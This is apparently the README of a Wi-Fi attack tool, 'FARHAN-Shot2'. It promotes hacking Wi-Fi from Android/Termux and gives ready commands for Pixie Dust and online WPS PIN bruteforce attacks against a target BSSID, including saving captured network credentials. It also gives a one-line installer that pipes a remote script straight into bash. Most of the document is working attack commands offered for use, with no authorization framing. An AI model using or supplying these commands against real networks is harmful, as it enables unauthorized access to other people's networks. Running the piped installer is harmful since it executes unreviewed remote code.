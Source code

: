 [![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/)
[![python](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/downloads/release/python-2714/)
[![OS](https://img.shields.io/badge/Tested%20On-Linux%20%7C%20Android-yellowgreen.svg)](https://termux.com/)



# Overview
**FARHAN-Shot2** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
# Requirements
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).

Please note that root access is required.  

### Installation one line:

```bash
apt update && apt upgrade && pkg install tsu && pkg install python && pkg install git && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw openssl && termux-setup-storage && curl -sSf https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2_Termux_installer/master/installer.sh | bash && git clone --depth 1 https://github.com/gtajisan/FARHAN-Shot2 FARHAN-Shot2 && sudo python FARHAN-Shot2/FARHAN-Shot2.py -i wlan0 --iface-down -K
```


## [Termux](https://termux.com/)
Please note that root access is required.  

### Hack WIfi Using Termux! (Requires Root)
<p align="center"><img src="https://j.top4top.io/p_2835ox44m0.png"></



#### Using installer
 ```
 curl -sSf https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2_Termux_installer/master/installer.sh | bash
 ```
#### Manually
**Installing requirements**
 ```
pkg update
pkg upgrade
pkg install tsu
pkg install python
pkg install git
pkg install root-repo
pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
termux-setup-storage
 ```
**Getting FARHAN-Shot2**
 ```
 git clone --depth 1 https://github.com/gtajisan/FARHAN-Shot2 FARHAN-Shot2
 ```
#### Running
 ```
 sudo python FARHAN-Shot2/FARHAN-Shot2.py -i wlan0 --iface-down -K
 ```


# Setup
## Debian/Ubuntu
**Installing requirements**
 ```
 sudo apt install -y python3 wpasupplicant iw wget
 ```
**Installing Pixiewps**

***Ubuntu 18.04 and above or Debian 10 and above***
 ```
 sudo apt install -y pixiewps
 ```
 
***Other versions***
 ```
 sudo apt install -y build-essential unzip
 wget https://github.com/wiire-a/pixiewps/archive/master.zip && unzip master.zip
 cd pixiewps*/
 make
 sudo make install
 ```
**Getting FARHAN-Shot2**
 ```
 cd ~
 wget https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2/master/FARHAN-Shot2.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 wget https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2/master/vulnwsc.txt
 ```
## Arch Linux
**Installing requirements**
 ```
 sudo pacman -S wpa_supplicant pixiewps wget python
 ```
**Getting FARHAN-Shot2**
 ```
 wget https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2/master/FARHAN-Shot2.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 wget https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2/master/vulnwsc.txt
 ```
## Alpine Linux
It can also be used to run on Android devices using [Linux Deploy](https://play.google.com/store/apps/details?id=ru.meefik.linuxdeploy)

**Installing requirements**  
Adding the testing repository:
 ```
 sudo sh -c 'echo "http://dl-cdn.alpinelinux.org/alpine/edge/testing/" >> /etc/apk/repositories'
 ```
 ```
 sudo apk add python3 wpa_supplicant pixiewps iw
 ```
 **Getting FARHAN-Shot2**
 ```
 sudo wget https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2/master/FARHAN-Shot2.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 sudo wget https://raw.githubusercontent.com/gtajisan/FARHAN-Shot2/master/vulnwsc.txt
 ```
## [Termux](https://termux.com/)


# Usage
```
 FARHAN-Shot2.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 FARHAN-Shot2.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 FARHAN-Shot2.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 FARHAN-Shot2.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 FARHAN-Shot2.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running FARHAN-Shot2 with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running FARHAN-Shot2 with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
# Acknowledgements
## Special Thanks
* `rofl0r` for initial implementation;
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` for developing Pixiewps.
